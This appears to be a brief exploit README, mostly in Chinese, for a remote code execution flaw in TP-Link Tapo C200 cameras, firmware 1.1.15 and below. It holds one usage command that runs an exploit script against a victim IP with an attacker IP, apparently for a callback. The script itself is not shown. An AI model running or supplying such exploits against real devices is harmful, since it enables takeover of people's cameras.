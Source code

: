 TP-Link Tapo c200 1.1.15--RCE 漏洞

### 影响版本
1.1.15 and below

### exp 利用

```shell
python3 exp.py <victim_ip> <attacker_ip>
```